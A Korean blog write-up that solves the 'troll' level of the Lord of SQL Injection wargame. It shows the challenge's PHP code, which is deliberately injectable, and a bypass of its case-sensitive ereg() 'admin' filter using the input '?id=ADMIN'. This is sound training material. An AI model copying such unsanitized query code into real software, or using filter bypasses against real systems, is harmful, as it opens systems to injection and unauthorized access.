```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - troll 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제의 이름은 `troll`이다.  

중간중간에 좀 쉬운 문제들이 있어서 하루에 여러개 빠박! 풀고 싶은데 그러면 내가 일을 안할 것 같으니 한문제 씩만 풀어야겠다.  

이번 문제는 매우 간단하다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------
query : select id from prob_troll where id=''
----------------------------------------------------------

<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

쿼리를 완성시켜 `id`가 `admin`인 결과를 가져오면 된다.  

그런데 코드 중간을 보면 `ereg("admin", %_GET['id'])`라는 부분이 있다.  

`ereg()` 함수는 정규표현식을 이용해서 일치하는 문자열이 있는지를 찾아주는 함수이다.  

이 문제에서는 사용자가 입력 한 `id`에  `admin`이라는 문자열이 있는지 없는지를 검사한다.  

`id`가 `admin`인 결과를 추출해야 하는데 `admin`에 필터링이 걸려있다.  

그래서 `ereg()` 함수에 오류가 있거나 필터링이 완벽하지 않을 것이라고 생각하고 문제에 접근했다.  

이 전에도 몇번 언급했다시피 `MySQL`에서는 대소문자 구분이 없다.  

때문에 `id`가 `admin`인 결과를 추출하기 위해서 쿼리의 `where`절에 `admin`, `Admin`, `ADMIN` 등을 입력해도 결국 같은 값을 얻을 수 있다.  

찾아보니 `ereg()` 함수는 대소문자를 구분하는 함수이다.  

그래서 `admin`이라는 단어가 있다면 `true`를 반환하겠지만 `Admin`, `ADMIN` 처럼 한 글자라도 대문자로 구성한다면 `false`를 반환 할 것이다.  

그렇다면 필터링도 우회하고 쿼리도 정상적으로 실행 해 문제를 풀 수 있다.  

역시나 아래와 같이 입력했더니 문제를 풀 수 있었다.  

```
?id=ADMIN
```

```php
-------------------------------------------------------------------
query : select id from prob_troll where id='ADMIN'
-------------------------------------------------------------------

TROLL Clear!
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

`TROLL Clear!!`

